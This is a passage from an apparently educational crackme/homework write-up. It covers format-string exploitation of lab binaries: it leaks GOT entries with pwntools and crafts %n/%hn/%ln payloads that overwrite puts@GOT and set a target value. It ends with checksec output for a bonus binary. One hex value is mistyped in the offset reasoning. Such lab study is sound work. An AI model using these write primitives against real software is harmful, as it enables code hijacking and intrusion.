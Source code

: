 At "%6$x"

Then find content of GOT:

```python
context.log_level = 'DEBUG'
start()
p.send(b'%7$s'.ljust(8, b'\x99') + p64(puts_got))
switch()
p.send(b'%7$s'.ljust(8, b'\x99') + p64(tar_func_got))
end()
```

And get the output:

```
[DEBUG] Received 0x12 bytes:
    00000000  a0 1a 1a fe  23 7f 99 99  99 99 30 30  60 64 6f 6e  │····│#···│··00│`don│
[DEBUG] Received 0xf bytes:
    00000000  c6 18 40 99  99 99 99 58  31 60 64 6f  6e 65 0a     │··@·│···X│1`do│ne·│
```

Design the payload `(b'%4200646x' + b'%8$ln').ljust(16, b'\x99') + p64(puts_got)` and get the "Try harder\n" hint:

<img src="assets/image-20210428174649852.png" style="zoom:50%;" />

### Modify value

```assembly
    1f4a:	b8 64 85 8c bd       	mov    $0xbd8c8564,%eax
    1f4f:	48 39 c2             	cmp    %rax,%rdx
    1f52:	75 20                	jne    1f74 <target_function_3180103012+0x38>
```

This time the desired value is `0xbd8c8564` and the `id` address is 0x603218(not fixed).

Since 0x8564 < 0xdb8c < 0x4018c6

```
6 + 48/8 = 12 --> %12$n
0x8564 = 0d34148
0xbd8c - 0x8564 = 0x3828 = 0d14376
0x4018c6 - 0xbd8c = 0x3f5b3a = 0d4152122
```

So construct the payload `(b'%34148x%13$hn' + b'%14376x%14$hn' + b'%4152122x%12$ln').ljust(48, b'\x99') + p64(puts_got) + p64(id_addr) + p64(id_addr + 2)`

And get the desired result:

<img src="assets/image-20210428180806647.png" style="zoom: 50%;" />

## 03_bonus

```bash
$ checksec crackme/03*/*
[*] '/media/sf_SS/HW/hw03/crackme/03_bonus/echo'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/media/sf_SS/HW/hw03/crackme/03_bonus/libc.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```